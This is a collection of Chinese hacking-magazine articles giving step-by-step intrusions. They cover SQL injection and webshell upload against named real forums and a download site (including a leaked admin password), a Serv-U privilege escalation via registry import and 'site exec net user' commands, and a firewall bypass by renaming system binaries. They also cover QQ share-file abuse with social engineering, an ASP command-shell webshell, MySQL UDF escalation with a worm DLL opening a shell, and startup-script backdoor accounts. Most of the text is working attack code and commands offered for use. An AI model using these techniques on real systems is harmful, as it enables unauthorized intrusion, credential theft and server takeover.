BBSXP最新版本又暴出注入漏洞，尽管可以注入的地方有3处之多，但最能随心所欲构造任意注入语句的地方只有一处，其他地方都是用了HTMLENCODE()函数处理。由于在此处进行注入需要有membercode大于3的权限，所以注入起来比较痛苦，但是正是由于构造语句的随意性，使得我们很容易提升权限，更重要的是大部分使用这套系统的大型网站对存放上传文件的目录做了限制，使这个目录不具有执行的权限，这样一来，即使我们使用内部公布的BBSXP上传工具上传的木马根本无法执行。

对于这个漏洞的利用，本人开发了两个工具配合使用。第一个工具的作用是得到社区区长的加密密码，通过Cookie欺骗我们就可以满足Membercode>3的条件实现注入，这个工具界面如图1所示。

工具功能很简单，但很实用。在请输入特征字符的位置输入“blog.asp?id=1 and 1=1”，在“请输入社区区长的经验值”中输入社区区长的经验值即可，关于社区区长的经验值，大家在论坛中的管理团队中可以查看到。

下面我们就以http://bbs.yuzi.cc为攻击目标，这可是一个大型站点，看看注册人数你就知道了，如图2所示。


图1


图2

有16万的注册人数啊！废话少说，我们开始动手。先在论坛注册个账号，我注册的是llikz，然后在管理团队中找到社区区长的账号和经验值，如图3所示。


把特征字符也输入到对应位置，然后点击开始破解，接着着密码出来把！如图4所示。


我已经成功取得了区长加密的密码了，下面的工作就是Cookie欺骗进行注入了，第二款工具就可以完成这个功能，界面如图5所示。


其中要说明的是输入的路径后一定要带上“/”号，否则不会成功，其中的ID并不是随便填写的，必须是论坛中存在的ID号，它的值是确定的：大家进入论坛后，打开任何一个帖子就会在地址栏出现，填上即可。其中的区长账号填写刚才密码所对应的区长的账号，密码填写第一步破解出来的密码。其中最重要的地方就是SQL指令的输入了，指令大家可以自由发挥，填入自己要执行的命令。这里我就先示范常规方式的使用，在SQL指令中输入如下指令点击执行，如图6所示。这表明我们执行成功了，我填入的是


```
update [clubconfig] set UpFileGener=' rar|zip|gif|txt|jpe|g|asa'
```

看我多加了个asa文件类型，这样我们就可以上传asa扩展名的文件了，你可以使用如下的方式上传。在本地建立一个文件，我建立在了d盘，命名为pp.htm，在里面输入如下代码：

```html
<form enctype=multipart/form-data method=post action=http://bbs.yuzi.cc/upfile.asp?menu=up>
 <table cellpadding=0 cellspacing=0 width=100% class=a4>
 <tr><td>
 <td><input type=file style=FONT-SIZE:9pt name=file size=60> <input style=FONT-SIZE:9pt type="submit" value="上传" name=Submit></td></tr></table></form>
```

使用如下的方式打开，如图7所示。


注意要在自己登录的这个IE窗口中打开，这样可以发送我们提交的Cookie信息了，然后选择一个本地的asa文件上传，看看结果，如图8所示。


我们已经上传成功了，打开看看我们的Shell吧！如图9所示。
哈哈，是不是傻眼了？一般的大站都进行了设置，


图9

所以Shell不能运行是很正常的，不过不要气馁，我们还有其它的方法进行Shell的上传。

运行如下的命令，如图10所示。


图10

```
update [user] set: username=(select adminpassword from [clubconfig]) where username='llikz'
```

把后台密码读到我的邮箱对应的字段，然后打开个人资料看看，记下邮箱对应的加密的字段。这个很重要，我们修改后台密码、上传Shell后可以还原后台密码。接着执行如图11所示的参数。


图11

```
96E79218965EB72C92A549DD5A330112是111111的加密的密码，这样我们就把后台密码改成111111拉。接着提升自己账号的权限:
update [user] set membercode=5 where username='llikz'
```

再刷新一下，哈哈，我的账号已经是社区区长了，登陆后台输入111111，哈哈，我已经成功进入了后台，接下来的任务很简单了，只要服务器支持FSO，我们就可以通过备份数据库的方法得到WebShell了，如图12所示。

其中数据库路径是我刚才上传的那个不能执行的asp木马，现在我把它备份到一个可以执行的目录去。这里要特别注意，其中的备份数据库路径的.ASP一定要大写，要不然是不能备份的，你也可以备份成. asa的。我们来看看是不是成功了，如图13所示。


图12


图13

访问后发现成功，看来这个目录是可以执行的。使用木马客户端连上去看看，如图14所示。


图14

哈哈，成功了，接下来就是提升权限了。我首先想到的就是查看一下数据库连接账号，如图15所示。


图15

SA连接？有戏！利用WebShell执行命令就行了！
一切都OK了，多么完美的入侵啊！大家在测试中可以随意发挥随意构造需要的SQL指令，你会发现入侵是多么有趣的一门艺术，大家有什么不明白的地方直接跟我联系QQ:66734111，或者在黑防论坛上发布你的问题，我会来回复的哦！


### 通杀国内防火墙

适合读者: 入侵爱好者、网管、防火墙开发者
前置知识: 无

文/图 N/P (NetPatch)

一直以来都有一个梦想: 我要是能发现些漏洞或Bug什么的该多好啊! 于是整天对着电脑瞎弄瞎研究,研究什么呢? 研究如何突破防火墙（我这里指的防火墙是软体型的个人防火墙，硬件的偶也没条件。）嘿嘿，你还别说，还真没白研究，还真给我发现了大多数防火墙的通病。这个Bug能让我们欺骗防火墙来达到访外的目的，具体情况是怎么样的呢？请看下面的讲解！

首先，我要介绍一下Windows系统特性，当一个程序运行时，它不能删除，但却能够改名！而当系统里的被保护程序遭到删除或损坏或改名时系统就会及时调用备份文件给予还原！我再讲讲防火墙，大家都知道许多防火墙的“应用程序规则”里一般默认就会让IE浏览器（iexplore.exe）、Outlook Express（msimn.exe）、lsass.exe、spoolsv.exe、MSTask.exe、winlogon.exe、services.exe、svchost.exe通过，而大多的防火墙认为只要是与规则里的路径及文件名相同就Pass！以这样的检测方法来决定是否放行，但它却完全没考虑到如果是别的文件替换的呢？——就相当于古装片里的易容术，易容后就认不得了！这就给了我们机会，我们可以利用这个Bug来欺骗防火墙达到访外的目的！

其实现在太多木马采用的DLL插线程技术也就是利用了这个原理，它们首先隐蔽开启一个认证放行的程序进程（如iexplore.exe进程），接着把DLL型木马插入这个线程内，然后访外时就可轻松突破防火墙的限制了——因为防火墙是不会拦截已认证放行的程序的。

原理讲完了，我们现在讲讲该如何利用这个Bug了！这里我用虚拟机做实验，制造如下条件。

为了更符合现实，我给服务器安装了“天网防火墙”、Radmin（但由于防火墙指定了访问IP地址，所以没办法正常连接！）、MSSQL、Serv-U。首先我们用常用的方法进行端口转发，看看防火墙有什么反应！

第一步，启用AngelShell Ver 1.0里的Fport（用来进行端口转发的服务端，几乎可以转发任何端口），然后在本地用FportClient（用来进行端口转发的客户端）监听好！如图1所示。

第二步，直接在CMDSHELL里运行“e:\www\fport.exe 4899 192.168.1.1 7788”，这时我们看到虚拟机里的“天网”对Fport马上进行了拦截。如图2、图3所示。


看到了吧！由于Fport并不是认证放行的,防火墙马上就进行了拦截！OK，现在我们实行欺骗计划，看我如何突破防火墙的！还是执行第一步，然后新建一个批处理，内容如下：

```
ren MSTask.exe MSTask1.exe
ren fport.exe MSTask.exe
MSTask.exe 4899 192.168.1.1 7788
Del %0
```


命名为go.bat，接着用SqlRootKit把“Fport.exe”和go.bat 一起copy到目标机子的c:\winnt\system32\（也就是MSTask所在的目录）在SqlRootKit里执行go.bat（注意如果要改MSTask.exe的名的话就需要有管理员权限）。

当FportClient出现“已经接受到远程计算机的连接！”时，用Radmin客户端连接本机的4899端口。如图4所示。

## EXPLOIT ATTACK

> 栏目编辑 > 脚本小子 > scriptboy@hacker.com.cn


图4


图5

我们已经成功突破限制(由于防火墙没有限制本地连接4899端口,我们用Fport转发了它的端口,登录时等于本地连接,因此我们能够成功连接),这样一来,我们本不能逃过防火墙的Fport便变成了一个有"线程插入"技术的端口转发工具了!如图5所示。
据我实验,国内的防火墙几乎无一例外的"拥有"这个Bug! 虽然这个Bug不会带来什么大的危害,但总是给入侵者多了一个黑我们的机会!
WTF老大说独乐乐不如众乐乐,所以我还是公布出来了,一是可以让我们国内的防火墙有所改进,二是给网管们提个醒! 由于小弟技术有限,难免会出现错误,欢迎各位指正批评。

///

适合读者: 入侵爱好者、网管、PHP程序员
前置知识: 无

### 注入天空软件站


文 / 图 混世魔王

天空软件站想必大家都知道(www.skycn.net),它是国内很有名的下载站点,在世界网站排名也在几百名以内。网站是用PHP的脚本后台,生成HTML前台页面,初一看,的确让人觉得没有搞头,不过经过找啊找,我终于找到了N个PHP的链接。直接拿出HDSI2来探测一下再说,界面如图1所示。


图1

HDSI2的使用比较简单,我们选择PHP注入,在注入地址处输入网址,点开始就可以了。如图2所示。


图2

小提示
HDSI2是一款功能强大的脚本注入工具,加入了ASP和PHP的注入功能,而且还加入了非常多的功能,例如,N B的命令执行,目录浏览,旁注,域名查询,上传漏洞利用等。

软件提示"请输入PHP注入关键字",那我们来访问这个URL看看(PHP注入的关键字类似于ASP注入找不到注入点,需要输入关键字一样),一般是用这个URL的文章题目做我们PHP的注入关键字。如图3所示。


图3

复制了标题后,加入到HDSI2的"关键字符"中,我们再来看看效果,如图4所示。
我们可以看到初步检查已经完成,类似于ASP注入,我们来猜表名,管理员账号字段和密码字段。如图5所示。
跑出表段后,我们会发现在页面里有个"2",也就是说在2字那里显示用户名的内容。如图6所示。
看出来了吧? 返回'soft界面'其实用户名就是soft。接下来用同样的方法得到密码,如图7所示。

www.hacker.com.cn
2006精华奉献本 下册

## EXPLOIT ATTACK

】栏目编辑】脚本小子】scriptboy@hacker.com.cn


结果出来了,密码是:sky7510221@#,晕死!密码是明文。接下来找后台,HDSI2可以自己扫描后台,如图8所示。


轻松扫描出后台后,抱着试一试的心态去看看,如图9所示。


给出提示说“非法用户,请重试”,点重试就返回登录口了。输入我们刚才跑出来的账号密码来登录,成功!如图10所示。


好了,现在已经在它的后台了,剩下的东西就等有兴趣的朋友慢慢去摸索了,我还是继续看我的黑防去吧!

适合读者:入侵爱好者、网管
前置知识:Serv-U FTP使用

### Serv-U FTP 再暴本地权限提升漏洞

文/图 下雨天[F.S.T]

#### 受影响的软件

Serv-U FTP Server目前所有版本

#### 受影响系统

- Microsoft Windows Server 2003
- Microsoft Windows XP
- Microsoft Windows 2000
- Microsoft Windows NT

#### 综述

Serv-U FTP Server是RhinoSoft出品的一款FTP软件,目前在全世界广为使用。经我研究发现,Serv-U FTP Server的配置文件如果在配置的时候存贮于注册表中会造成安全隐患。如果本地受限用户或者远程拥有普通权限的攻击者能修改注册表并精心构造注册表中文件中的内容,就能利用FTP进程在系统上以SYSTEM权限执行任意命令。

www.hacker.com.cn
2006 精华奉献本 下册

#### 缺陷分析

Serv-U FTP Server在设置用户以后会把默认情况下配置信息存储于ServUDaemon.ini文件中。包括用户的权限信息和可访问目录信息。但是由于这样有本地权限提升的可能，所以为了安全，有的用户会设置保存在注册表中。本地受限用户或者是远程攻击者只要能够读写注册表，就可以通过修改目录中的ServUDaemon.ini文件实现以FTP进程在远程、本地系统上以FTP系统管理员权限来执行任意命令，并且不受系统版本的影响（用户信息选择“存储于INI文件”不受此缺陷影响）。

上面的东西我是模仿发现漏洞的老大们写的，大家不要BS我呀，我不善言词的，呵呵。

#### 发现过程

这几天好无聊，老师要我建个安全的FTP服务器，因为学校有些资料比较机密……

玩电脑快一年了，什么也不会，看了几期黑防，说实话对攻击的方面掌握得都不多，别说防范了，要做一个安全的FTP服务器，哎，自己的知识不够用呀！于是我开始了我漫长的学习过程，也无意发现了一个漏洞。

不知大家还记不记得以前的一个漏洞？就是通过修改ServUDaemon.ini文件实现以FTP进程在远程系统以FTP系统管理员权限执行任意命令，而作者这样说的：用户信息选择“存储与系统注册表中”不受此缺陷影响。真的吗？我可是有点怀疑！我开始了我的测试，装了个最新版的Serv-U 6.002先！我是这样想的，保存在INI文件与保存在注册表中不都可以利用吗？于是想到了在注册表中修改！

首先，我想知道保存在INI与保存在注册表中有何不同，所以我设置了一下保存在INI与保存在注册表中的选项，如图1所示。


图1

于是稍微分析了一下前后不同设置情况下配置文件的变化，前后变化如下：

```
==以下为保存在INI文件中时候的ServUDaemon.ini内容==
[GLOBAL]
Version=6.0.0.2
ProcessID=3548
BlockFTPBounceAttack=1
PacketTimeOut=300
[DOMAINS]
Domain1=202.193.74.119|21|xysky test1|1|0|0
```

```
[Domain1]
MDTMCanChange=0
Logging=1
LogIPNames=1
LogFileIPNames=1
LogFileRotation=Daily
User1=xysky1|1|0
[USER=xysky1]
Password=cnF44DE02914749CAD850B93BE2C8EE6F5
HomeDir=f:\xysky
RelPaths=1
TimeOut=600
Note1="Wizard generated account"
Access1=F:\xysky|RLPWAMCD
===================
==以下为保存在注册表中时候的ServUDaemon.ini内容==
[GLOBAL]
Version=6.0.0.2
ProcessID=3548
BlockFTPBounceAttack=1
PacketTimeOut=300
===================
```

没什么太大发现，于是上网找了个监视注册表的工具，决定看看注册表中究竟动了什么。后来进行了一番比较，结果也没发现什么，郁闷，看来我是走了不少弯路。

有天猛想修改INI文件加个具有系统权限的账号，如果我们在注册表中直接加上一个账户，那也可以算是个本地提升权限漏洞吧！于是开始了我的新的测试！

打开ServUAdmin.exe，也就是FTP本地管理工具，加一个系统管理权限的账号hacker，密码为123456，并且把主目录为系统盘，然后把删除、运行等权限全选上，如图2，图3所示。


图2


图3

## EXPLOIT ATTACK

经过一番注册表的比较,发现变化的地方如下。在如下地方增加一个字符串

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Cat Soft\Serv-U\Domains\1\UserList]
"hacker"="1"|0|
```

在如下地方增加一个项且增加的字符串如下:

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Cat Soft\Serv-U\Domains\1\UserSettings\hacker]
"Password"="gx4963908EAA34EB2107F519B8DD298188"
"HomeDir"="c:\\"
"RelPaths"=""
"TimeOut"="600"
"Maintenance"="System"
"Access1"="C:\\RWAMELCDP"
"SKEYValues"=""
```

还有另一处非常怪异的差别,我觉得没什么用,就丢开了。接着我试着直接构造一个注册表文件,然后通过导入的方式来增加个我们恶意构造的用户(不得不说明一下其中的弯路,导致我又发现了一个新的不知是不是漏洞的漏洞)。

我制作的注册表内容如下:

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Cat Soft\Serv-U\Domains\1\UserList]
"hacker"="1"|0|

[HKEY_LOCAL_MACHINE\SOFTWARE\Cat Soft\Serv-U\Domains\1\UserSettings\hacker]
"Password"="mr8770E711372D8D077E1741955FBE9096"
"HomeDir"="c:\\"
"RelPaths"=""
"TimeOut"="600"
"Maintenance"="System"
"Access1"="C:\\RWAMELCDP"
"SKEYValues"=""
```

把我建的hacker账户删了再导入注册表,神奇的事发生了,如图4 所示。


我的用户一个也显示不出来了,可是依然可以登录FTP,并且增加的hacker也可以登录!更奇怪的是,这个时候还可以增加一个已经存在的用户,而且不会报错,我狂汗!正常情况下如果建一个相同的账号会报错的,如图5 所示。

我想可能是偶然吧,如果算是漏洞的话,也没什么太多的研究价值,除非你想在FTP中做看不出来的账号!不过我还是希望能有人把这种偶然研究下去,我继续说下面的漏洞。


我也不知道上面为什么错了,于是又重新分析了一遍。我还是相信那个被我忽略的注册表修改项没太大的作用,再建一个注册表项,内容和上面的一样,导入注册表,打开FTP管理工具,发现已经成功的创建了hacker用户,Yeah,成功了!有点不敢相信,又在自己机子(2003的系统)上测试了,也成功了!于是我跑到学校服务器(2000的系统)上去测试,没什么好说的,也成功了!

#### 测试方法

测试的前提就是用户在FTP里设置为保存在注册表中。制作一个注册表文件,内容如下:

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Cat Soft\Serv-U\Domains\1\UserList]
"hacker"="1"|0| 建一个hacker 的账号

[HKEY_LOCAL_MACHINE\SOFTWARE\Cat Soft\Serv-U\Domains\1\UserSettings\hacker]
"Password"="mr8770E711372D8D077E1741955FBE9096"
123456 加密后的密码
"HomeDir"="c:\\" 主目录在系统盘C盘
"RelPaths"="1" 将用户锁定于主目录如果不锁定则没有该项
"TimeOut"="600" 超时设置
"Maintenance"="System" 系统管理员的特权
"Access1"="C:\\RWAMELCDP" 目录访问的设置
"SKEYValues"=""
```

保存并导入到注册表中,如图6 所示。


这样我们就在服务器上建了一个具有运行权限的系统管理员权限的用户,如图7 所示。

接下来就是登录到Serv-U FTP Server以后执行如下经典的FTP利用命令:

## EXPLOIT ATTACK
> 栏目编辑 | 脚本小子 | scriptsboy@hacker.com.cn


有的时候没有net.exe可以考虑下net1.exe,如图8所示。


```
ftp>open ip:port  //默认为21则不用输入了
Connected to ip
220 Serv-U FTP Server v4.1.0.0 for WinSock ready...
User (ip:(none)): id  //输入构造的用户
331 User name okay, please send complete E-mail address as password.
Password:password: //密码
230 User logged in, proceed.
ftp> cd winnt  //进入Windows 2000的winnt目录,
如果是Windows XP或者是Windows Server 2003就应该为Windows目录。
250 Directory changed to /WINNT
ftp>cd system32  //进入system32目录
250 Directory changed to /WINNT/system32
ftp>quote site exec net.exe user xysky.test xyskyhack /add  //利用系统的net.exe文件加用户。
200 EXEC command successful (TID=33).
ftp>quote site exec net.exe localhost administrators xyskytest /add //提升为超级用户
```


OK,成功了!去服务器上看看吧,结果如图9所示。

测试完成!余下的空间就让大家自己去发挥吧!!!

脚本小子: QQ是网民必不可少的通信工具,用服务器挂QQ的网管大有人在,但你是否会想过它会是入侵计算机的一个高危险漏洞呢? 看看作者是如何用QQ拿到管理员权限的吧!

适合读者: 入侵爱好者,网管        前置知识: 无

### 用QQ漏洞攻进Windows 2003 服务器


文 / 图  科尔沁鹰 / 纳民

服务器上运行的第三方软件历来就被攻击者们看作是入侵目标系统的捷径。现在,著名的腾讯QQ又被列入了名单,好在QQ并不是服务器必备的软件之一,所以相信不会造成大范围的危机。文中遇到的情况比较特殊,但大家还是应该遵照“不怕一万,就怕万一”的原则做出相应防御。

加上Windows 2003默认禁止了“Everyone”匿名用户及“Guest”组权限用户访问cmd.exe,还造成了不能通过WebShell运行cmd.exe。唯一值得庆幸的是利用Webshell可以对D盘(存放有Web虚拟目录)各个子目录进行读写。这里除了Web虚拟目录还有一些数据备份文件和一个腾讯QQ安装目录Tencent。

#### 获得2003的WebShell

此次渗透的目标是一台OA办公系统服务器,其操作系统是Windows 2003,但仍存在ASP文件上传漏洞,所以WebShell的取得并没有任何悬念。阻碍是在权限提升时遇到的……

登录WebShell后发现只能查看服务器的D盘,对C盘不能进行任何访问,WebShell的提示是“没有权限”。这点早在意料之中,因为WebShell只有Guests组权限,再

#### Serv-U的终极防范

Windows 2003的种种默认安全配置展示了它强大的安全规则,进一步提升现有权限似乎已不太可能,直到我试图从系统入手向这台服务器发出FTP链接请求并看到Serv-U的Banner时才觉得又有了一线希望。

通过WebShell上传本地非2003系统中的cmd.exe到可执行目录,再通过Wscript组件,能够通过WebShell方式在Windows 2003下获得相应权限的cmd.exe。结合nc.

www.hacker.com.cn
2006精华奉献本 下册


## EXPLOIT ATTACK
> 栏目编辑 / 脚本小子 ) scriptsboy@hacker.com.cn

exe，我们甚至还能得到一个Guest权限的命令行下的Shell。为此，我对老兵的站长助手6.0做了一些改进，增加了如下代码，使其能够利用Wscript.shell组件运行本地上传的cmd.exe

```vbscript
Function CmdShell()
    If Request("SP")<>"" Then Session("ShellPath") = Request("SP")
    ShellPath=Session("ShellPath")
    if ShellPath="" Then ShellPath = "cmd.exe"
    if Request("wscript")="yes" then
        checked="checked"
    else
        checked=""
    end if
    If Request("cmd")<>"" Then DefCmd = Request("cmd")
    SI="<form method='post'><input name='cmd' Style='width:92%' class='cmd' value='"&DefCmd&"'><input type='submit' value='运行'>"
    SI=SI&"<textarea Style='width:100%;height:500;' class='cmd'>"
    If Request.Form("cmd")<>"" Then
        If Request.Form("wscript")="yes" then
            Set CM=CreateObject("ObjT(1,0)")
            Set DD=CM.exec(ShellPath&" /c "&DefCmd)
            aaa=DD.stdout.readall
            SI=SI&aaa
        else
            <object runat=server id=ws scope=page classid="clsid:72C24DD5-D70A-438B-8A42-98424B88AFB8"></object>
            <object runat=server id=ws scope=page classid="clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B"></object>
            <object runat=server id=fso scope=page classid="clsid:0D43FE01-F093-11CF-8940-00A0C9054228"></object>
            <%szTempFile = server.mappath("cmd.txt")%>
            <%Call ws.Run (ShellPath&" /c " & DefCmd & " > " & szTempFile,0, True)%>
            <%Set fs = CreateObject("Scripting.FileSystemObject")%>
            <%Set oFileTxt = fs.OpenTextFile(szTempFile, 1, False, 0)%>
            <%aaa=Server.HTMLEncode(oFileTxt.ReadAll)%>
            <%oFileTxt.Close%>
            <%Call fso.DeleteFile(szTempFile, True)%>
            <%SI=SI&aaa%>
        end if
    End If
    SI=SI&chr(13)&"</textarea>"
    SI = SI & "SHELL 路径: <input name ='SP' value='"&ShellPath&"' Style='width:70%'>&nbsp;&nbsp;"
    SI=SI&"<input type='checkbox' name='wscript' value='yes'"&checked&" >WScript.Shell</form>"
    Response.Write SI
End Function
```

利用时只需在Shell路径中指定上传的cmd.exe路径,再选中选项Wscript就能运行一些所需权限较低的系统命令,如“net start”或者“netstat -an”等。依次运行这两个命令后WebShell回显了众多服务,包括Serv-U FTP Server,活动端口列表中又出现了43958端口,于是我自然想到了神通广大的Serv-U FTP Server本地权限提升漏洞。可真用到的FTP本地权限提升工具在执行系统命令时,却出现了530错误提示(如图1所示)。

看来管理员对Serv-U打了补丁或做了安全配置。为了知道究竟是怎样的安全配置,上网查了查相关文章,


再从错误提示推测他的防范技巧 对ServUDaemon.exe中默认的管理员或密码进行了修改。当然这只是假设,只有将目标服务器上的ServUDaemon.exe下载下来看看具体配置才能确定,但是安装有Serv-U的C盘禁止访问,包括Programe files目录,权限提升再次受阻。

### QQ的使命

再次翻了翻D盘,又见到了那个很少能在服务器中看到的Tencent文件夹,查看whatsnew.txt,如图2所示。


得知QQ的版本是QQ2005 Beta1,几个相关文件的创建时间也说明网管最近在服务器上登录过QQ。难道QQ能用?经过一番思索,终于想到一个可以利用QQ2005的文件共享功能漏洞。该漏洞是随着QQ2005贺岁版新增功能出现的,可以将其危害描述为:利用该漏洞,攻击者可以浏览、读取用户系统中的任意文件(如sam文件、数据备份文件、敏感信息文件),影响系统是安装有QQ2005贺岁版以上的所有Windows系列操作系统。

具体利用方法是:先在本机登录自己的QQ,调出“QQ菜单”,选择工具->设置共享,指定C:\或者其他任何有利用价值的分区为共享文件,完成后关闭QQ,找

## EXPLOIT ATTACK

栏目编辑 > 脚本小子 > scriptboy@hacker.com.cn

到安装目录下以QQ账户命名的文件夹内“ShareInfo.db”文件。如图3所示。


上传，覆盖目标服务器上相同的文件（如：D:\Tencent\QQ\654321\ShareInfo.db），当网管在服务器上登录QQ时就会向好友开放C盘为共享目录。如图4所示。


因为陌生人是不能共享对方文件，所以还需要用社会工程学申请将管理员加为好友（理由当然越可信越好）。如果管理员通过请求，服务器的C盘会以QQ共享文件目录的名义被共享，原本不能通过WebShell访问的ServUDaemon.exe文件就能被下载，遇到阻碍的权限提升之路又能继续了。

当晚管理员就通过了申请，将我添加为好友。珊瑚虫QQ上显示的IP正是目标服务器的IP，于是下载了ServUDaemon.exe文件，用UE打开后查找127.0.0.1，发现默认配置下的内置账户“LocalAdministrator”被改成了“LocalAdministruser”。如图5所示。

这看起来是一个很“终极”的防御，但提出该方法的人似乎没有进行攻防所须的换位思考就将其公布了，要知道攻击者只需知道修改后的配置，并对本地权限提升利用工具进行相应的修改，所谓的终极防御也就被攻破了。方法还是用UE打开脱了壳的Serv-U本地权限提升利用工具，将LocalAdministrator改为LocalAdministruser即可。如图6所示。

然后上传修改后的ftp2.exe，在Wscript.shell中执行：
D:\web\ftp2.exe "net user user password /add"
看看结果，已经成功添加了一个用户。再把该用户


图5


图6

加入administrators组和“Remote desktop users”组后登录目标服务器的远程桌面。如图7所示。


图7

经过重重险阻，终于彻底攻陷了这台坚固的Windows 2003堡垒。

### 简单启示

可以看出，和“服务越少越安全”一样，服务器上运行的“第三方”越少越安全。流行的PcAnyWhere、VNC、Serv-U和这里提出的利用QQ2005提升权限，都是这样的例子。希望能引起大家的注意。

## EXPLOIT ATTACK
### 以MySQL之名

责任编辑：赵涛（sai） 栏目编辑：脚本小子（scriptboy@hacker.com.cn）

脚本小子：在貌似安全性较高的PHP网站下，也有了利用MYSQL的权限提升技术，现在，这个数据库系统再也不只是得到Webshell的工具了，应用得当，管理员权限一样手到擒来。
适宜读者：PHP程序员，入侵爱好者，网管
前置知识：MySQL基本命令

文/图 kEvin1986

前不久网上公开了一个MySQL Func的漏洞，讲的是使用MySQL创建一个自定义的函数，然后通过这个函数来攻击服务器。最早看到相关的报道是在o-otik上，但是公布的是针对Unix系统的Exploit，并且成功率也不是很高，而近期，国内有高手放出针对Windows系统的相关文章，于是我也马上找来朋友一同研究。

其实我们早就能想到，当我们在对MSSQL、Oracle数据库进行攻击的时候，得到了数据库中最高权限的账户，往往都是通过特殊的扩展过程或者函数来进行攻击的。比如MSSQL有xp_cmdshell，Oracle可以通过Msvcrt.dll来创建一个特殊的函数。而我们都始终没有想到，作为流行的数据库软件之一的MYSQL，也是可以进行函数的创建的。由此看来，MYSQL的这个漏洞不应称为漏洞而仅仅是一个技术而已。

废话一堆过后，我们来了解一下怎么在MYSQL里创建一个函数吧！这比如何利用重要得多，只要了解了原理，运用就能更加灵活，而且可以与其他思想融会贯通。

MYSQL中创建一个函数的语句为：

```
Create Function FunctionName Returns
[String|Integer|Real] Soname 'C:\func.dll';
```

其中FunctionName指的是函数的名称，C:\Function.DLL指的是函数所调用的DLL，而函数名正是DLL中的函数名称。不过这里需要我们注意的是，如果我们需要MYSQL可以在函数之中附带一个参数的话，那么就要符合UDF形式的程序编写规则，具体的可以查看MYSQL手册的第14节：《为MYSQL增加新函数》。而其中STRING，INTEGER，REAL是函数执行后所返回的值的形 式。当然，我们大可不必遵循UDF形式的编写，其实如果我们的函数中使用一个我们要执行的代码，而不使用参数，一样可以达到攻击的效果，比如说System ("command.com")等。网上现在以此漏洞进行攻击的FurQ蠕虫就是一个不使用UDF格式的例子。但是注意，这个创建函数的语句必须要求我们所用的MYSQL账户有对MYSQL这个数据库的写权限，否则无法正常使用。

好了，了解了原理之后，我们来实战一下如何使用MYSQL提升权限。

在这里我们已经通过各式各样的漏洞取得了一个服务器的WebShell，我这里演示用的是angel的phpspy，因为PHP默认连接MYSQL的函数，而ASP这些需要使用附加的组件来进行连接，本身不具备条件的。

一般来说，在Windows系统下面，很多软件都会在系统目录下创建一个叫my.ini的文件，其中包含了很敏感的MYSQL信息。而如果我们攻克的主机没有非常好的权限设置的话，我们本身就具有对%windir%目录的浏览权限，所以可以非常容易的读取其中的信息。而且非常多的管理员通常是将Root账户与密码写进My.ini，所以一旦我们读到Root用户的密码，就可以操纵整个MYSQL数据库或者是服务器了。如图1所示。


图1

得到MYSQL的Root密码之后，我们需要上传我们的DLL文件，我这里使用的是从FurQ蠕虫中提取的FurQ.dll。执行这个FurQ.DLL中的Shell函数，系统将会在6666端口打开一个带密码的CMDSHELL，当然，密码我们已经知道，就是“FurQ”几个字符而已。不过我们现在还没有执行的条件。需要通过MYSQL将这个函数创建到MYSQL中去。

现在，我们用PHPSPY新建一个PHP文件。输入以下的内容：

```php
<?php
$link=MYSQL_connect('127.0.0.1','root','root');
if (!$link) {
die('Could NOT Connect The Database: ' . MYSQL_error());
}
echo "Good Boy,Connected!<br>";
//这里的root\root就是从my.ini中读取的用户和密码。
@MYSQL_select_db('MYSQL') or die('use database MYSQL failed');
echo "Yes You Did!<br>";
//这里选择使用MYSQL数据库表。当然你也可以选择别的，如test。
$query="Create Function Shell RETURNS INTEGER SONAME 'd:\wwwroot\FurQ.dll';";
@$result = MYSQL_query($query, $link) or die ("Create Function Failed");
echo "Goddess...Successed!<br>";
//这两句话是关键，执行MYSQL的创建函数语句。将d:\wwwroot\furq.dll中的Shell函数创建进MYSQL中。使得
```

www.hacker.com.cn
2008精华奉献本 下册

适合读者：入侵爱好者，脚本安全爱好者
前置知识：无

### 提升管理员权限第9法

图/文 swords[E.S.T]

大家看过我非我[F.S.T]总结的提升管理员权限8法，现在我们利用启动脚本和批处理在获得Shell的情况下提升权限第9法：启动脚本法！首家批漏啊，大家可得看好了。

> > 启动脚本是邀请用户登录之前运行的脚本，它的功能类似于Windows 9X和DOS中的自动执行批处理文件autoexec.bat，由于脚本是在Windows登录之前运行，所以我们可以修改脚本内容来对系统进行设置，如启动一个后门程序，添加一个管理员账号，修改管理员账号等等。

#### WebShell提权

如果你可以直接写文件，如用海洋。
（1） 首先，我们用海洋编写了一个新建管理员的批处理文件swords1.bat，如下：

```
net user swords$ evilocal /add
net localgroup administrators swords$ /add
```

这个批处理文件加了一个管理员名为swords$，密码为evilocal的隐藏账户，将文件swords1.bat保存到“C:\winnt\system32\GroupPolicy\Machine\Scripts\Startup”下。注意：`c:\winnt`是系统目录，如果系统盘不是C盘，请相应修改为系统目录即可。在本机中查看，你也许找不到GroupPolicy\Machine\Scripts\Startup这个文件夹，可以选择工具/文件夹选项/查看/单击显示所有文件和文件夹。在海洋中用fso可以显示所有文件，就不必多此一举了。

（2） 接下来编写一个删除管理员的批处理文件swords2.bat，很简单，一句话即可，如下：

```
net user swords$ /del
```

这个批处理文件删除一个管理员名为swords$的隐藏账户，将文件swords2.bat保存到“C:\winnt\system32\GroupPolicy\Machine\Scripts\Shutdown”下。
（3）编写一个启动/关机脚本配置文件scripts.ini

(注意scripts是默认的配置文件名，不能改名！)，代码如下：

```
[Startup]
0CmdLine=swords1.bat
0Parameters=
[Shutdown]
0CmdLine=swords2.bat
0Parameters=
```

将文件scripts.ini保存到C:\winnt\system32\GroupPolicy\Machine\Scripts下。

#### CmdShell提权

如果你有一个CmdShell，有echo的权限就可以了，添加方法如下：
（1）echo一个swords1.vbs，它是启动时用的文件。

```
echo on error resume next > C:\winnt\system32\GroupPolicy\Machine\Scripts\Startup\swords1.vbs
echo net user swords$ evilocal /add>> C:\winnt\system32\GroupPolicy\Machine\Scripts\Startup\swords1.vbs
echo net localgroup administrators swords$ /add>> C:\winnt\system32\GroupPolicy\Machine\Scripts\Startup\swords1.vbs
```

注意：第一行一定要用`>`，这样才能删除原数据。

（2）echo一个swords2.vbs，它是关闭时用的脚本文件。

```
echo net user swords$ /del> C:\winnt\system32\GroupPolicy\Machine\Scripts\Shutdown\swords2.vbs
```

（3）编写一个启动/关机脚本配置文件scripts.ini。

```
